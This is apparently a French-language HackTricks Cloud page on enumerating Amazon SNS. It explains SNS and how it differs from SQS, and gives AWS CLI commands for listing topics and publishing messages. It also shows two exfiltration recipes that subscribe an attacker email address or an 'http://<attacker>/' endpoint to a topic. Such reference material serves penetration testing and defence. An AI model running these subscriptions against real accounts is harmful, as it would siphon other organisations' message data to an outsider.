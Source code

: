 # AWS - SNS Enum

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) est un **service de messagerie entièrement géré** pour la communication **application à application** (A2A) et **application à personne** (A2P).

La fonctionnalité pub/sub A2A fournit des **sujets** pour la messagerie **push-based, many-to-many** à haut débit entre les systèmes distribués, les microservices et les applications serverless basées sur les événements. En utilisant les sujets Amazon SNS, vos systèmes éditeurs peuvent diffuser des messages à un **grand nombre de systèmes abonnés**.

### **Différence avec SQS**

**SQS** est un service **basé sur les files d'attente** qui permet une communication point à point, garantissant que les messages sont traités par un **seul consommateur**. Il offre une **livraison au moins une fois**, prend en charge les files d'attente standard et FIFO, et permet la rétention des messages pour les tentatives de réexécution et le traitement différé.\
D'autre part, **SNS** est un service **basé sur la publication/abonnement**, permettant une communication **un-à-plusieurs** en diffusant des messages à **plusieurs abonnés** simultanément. Il prend en charge **divers points de terminaison d'abonnement tels que l'e-mail, les SMS, les fonctions Lambda et HTTP/HTTPS**, et fournit des mécanismes de filtrage pour une livraison ciblée des messages.\
Bien que les deux services permettent le découplage entre les composants des systèmes distribués, SQS se concentre sur la communication basée sur les files d'attente, tandis que SNS met l'accent sur les modèles de communication basés sur les événements et la diffusion.

### **Énumération**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Notez que si le **sujet est de type FIFO**, seuls les abonnés utilisant le protocole **SQS** peuvent être utilisés (HTTP ou HTTPS ne peuvent pas être utilisés).

De plus, même si `--topic-arn` contient la région, assurez-vous de spécifier la région correcte dans **`--region`** sinon vous obtiendrez une erreur qui semble indiquer que vous n'avez pas accès, mais le problème est la région.
{% endhint %}

### Accès non authentifié

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Élévation de privilèges

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Post-exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Persistance

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
